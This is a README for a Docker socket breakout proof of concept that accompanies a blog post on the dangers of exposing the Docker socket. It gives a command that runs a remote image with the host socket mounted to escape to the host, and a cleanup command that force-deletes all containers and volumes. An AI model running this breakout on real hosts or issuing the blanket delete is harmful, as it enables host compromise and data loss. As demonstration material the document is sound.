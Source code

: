 # docker-implant-sock-breakout
demo - https://www.lvh.io/posts/dont-expose-the-docker-socket-not-even-to-a-container.html

## Run PoC
`docker run --name poc --rm -v /var/run/docker.sock:/var/run/docker.sock enkaskal/docker-implant-sock-breakout:latest`

## Clean-up PoC

Unfortunately, this exploit leaves the docker container exited on the host, and therefore you will need to clean them up.

For example:

```
# docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                      PORTS               NAMES
d5f0df4162d7        debian:latest       "/bin/bash -c 'chroo…"   11 seconds ago      Exited (0) 10 seconds ago                       jolly_allen
```

If you don't have any other containers you want to keep, the easiest way to clean-up is to execute:

```
docker rm -fv `docker ps -aq`
```
